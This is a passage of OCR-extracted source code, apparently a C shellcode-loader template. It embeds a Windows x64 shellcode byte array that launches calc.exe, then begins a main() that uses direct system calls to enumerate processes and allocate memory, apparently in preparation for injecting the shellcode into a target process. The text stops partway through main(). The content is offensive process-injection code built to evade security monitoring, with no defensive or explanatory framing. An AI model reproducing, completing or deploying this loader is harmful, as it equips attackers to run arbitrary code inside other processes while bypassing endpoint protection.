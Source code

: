 ```py
	0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52,
	0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
	0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed,
	0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88,
	0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
	0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 0x88, 0x48,
	0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1,
	0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
	0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49,
	0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a,
	0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
	0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b,
	0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xe0, 0x1d, 0x2a, 0x0a, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
	0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47,
	0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e,
	0x65, 0x78, 0x65, 0x00
}};

int main() {{

    PVOID                       pSPIBuffer               = 0,
                                pShellcode               = 0;
    ULONG                       SPIBufferLength          = 0,
                                SPIBufferLength2         = 0,
                                OldProtection            = 0;
    NTSTATUS                    Status                   = 0;
    PSYSTEM_PROCESS_INFORMATION pProcess                 = 0,
                                hThread                  = 0;
    HANDLE                      hTargetProcess           = 0;
    SIZE_T                      BytesWritten             = 0,
                                ShellcodeSize            = sizeof(shellcode);
    CLIENT_ID                   ClientId                 = {{ 0 }};
    OBJECT_ATTRIBUTES           OA                       = {{ 0 }};
    LARGE_INTEGER               LargeInt                 = {{ 0 }};

    InitializeObjectAttributes(&OA, NULL, 0, NULL, NULL);

    /* --- Initialize system calls --- */
    WzDInit();

    /* --- Get a handle to the target process --- */

    Status = NtQuerySystemInformation( SystemProcessInformation, 0, 0, &SPIBufferLength );
    if ( Status != STATUS_INFO_LENGTH_MISMATCH && Status != SUCCESS )
    {{
        printf("Could not get the required buffer length. Error: 0x%0.8X\n", Status);
        return -1;
    }}

    Status = NtAllocateVirtualMemory( ( HANDLE )-1, &pSPIBuffer, 0, ( PSIZE_T )&SPIBufferLength, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE );
    if ( Status != SUCCESS )
    {{
        printf("Failed to allocate buffer for processes. Error 0x%0.8X\n", Status);
        return -1;
    }}

    Status = NtQuerySystemInformation( SystemProcessInformation, pSPIBuffer, SPIBufferLength, &SPIBufferLength2);
    if ( Status != SUCCESS )
    {{
        printf("Could not get system processes. Error: 0x%0.8X\n", Status );
```